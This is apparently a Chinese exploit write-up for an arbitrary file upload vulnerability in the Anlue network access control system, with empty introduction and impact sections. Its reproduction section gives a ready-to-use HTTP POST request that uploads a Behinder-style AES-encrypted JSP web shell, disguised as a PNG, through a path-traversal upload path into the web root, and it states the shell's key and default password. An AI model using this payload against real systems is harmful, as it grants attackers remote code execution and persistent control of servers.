 安略网络准入控制系统 任意文件上传漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

![1.png](resource/安略网络准入控制系统任意文件上传漏洞/media/rId24.png){width="5.833333333333333in"
height="3.357933070866142in"}

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    HOST: www.0-sec.org
    ... ...
    
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
    Content-Type: image/png
    
    <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
    
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="uploadpath"
    
    ../webapps/notifymsg/devreport/
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1--

![2.png](resource/安略网络准入控制系统任意文件上传漏洞/media/rId25.png){width="5.833333333333333in"
height="1.9321555118110236in"}

![3.png](resource/安略网络准入控制系统任意文件上传漏洞/media/rId26.png){width="5.833333333333333in"
height="3.0186636045494315in"}

参考链接
--------

> https://my.oschina.net/u/4391448/blog/4562455
>
> https://blog.csdn.net/God\_XiangYu/article/details/108555525
